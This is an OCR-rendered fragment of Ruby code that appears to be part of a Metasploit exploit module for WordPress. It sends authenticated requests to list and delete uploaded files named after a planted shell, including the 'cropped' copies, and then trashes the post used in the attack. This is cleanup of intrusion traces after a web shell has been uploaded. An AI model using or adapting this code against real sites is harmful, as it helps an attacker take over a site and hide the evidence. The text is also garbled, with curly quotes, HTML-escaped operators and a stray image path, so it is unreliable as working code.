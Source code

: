 ```

‘method’    => ‘POST’,

‘uri’       => uri,

‘cookie’    => cookie,

‘vars_post’  => { ‘action’ => “query-attachments” }

)

```
fail_with(Failure::NotFound, 'Failed to receive a response for uploaded file') unless res &amp;&amp; res.code == 200 &amp;&amp; !res.body.empty?
infos = res.body.scan(/id":(\d+),.*filename":"cropped-#{shell_name}".*?"delete":"(\w+)".*"id":(\d+),.*filename":"cropped-x".*?"delete":"(\w+)".*"id":(\d+),.*filename":"#{shell_name}".*?"delete":"(\w+)"/).flatten
id1, id2, id3 = infos[0], infos[2], infos[4]
delete_nonce1, delete_nonce2, delete_nonce3 = infos[1], infos[3], infos[5]
for i in (0...6).step(2)
  res = send_request_cgi(
    'method'    =&gt; 'POST',
    'uri'       =&gt; uri,
    'cookie'    =&gt; cookie,
    'vars_post'  =&gt; {
        'action' =&gt; "delete-post",
        'id'     =&gt; infos[i],
        '_wpnonce' =&gt; infos[i+1]
    }
  )
end

uri1 = normalize_uri(datastore['TARGETURI'], 'wp-admin', 'edit.php')
res = send_request_cgi(
  'method'    =&gt; 'GET',
  'uri'       =&gt; uri1,
  'cookie'    =&gt; cookie
)

if res &amp;&amp; res.code == 200 &amp;&amp; res.body &amp;&amp; !res.body.empty?
  post_nonce = res.body.scan(/post=#{post_id}&amp;action=trash&amp;_wpnonce=(\w+)/).flatten.first
  fail_with(Failure::NotFound, 'Unable to retrieve post nonce') unless post_nonce
  uri2 = normalize_uri(datastore['TARGETURI'], 'wp-admin', 'post.php')

  res = send_request_cgi(
    'method'    =&gt; 'GET',
    'uri'       =&gt; uri2,
    'cookie'    =&gt; cookie,
    'vars_get'  =&gt; {
      'post'     =&gt; post_id,
      'action'   =&gt; 'trash',
      '_wpnonce' =&gt; post_nonce
    }
  )
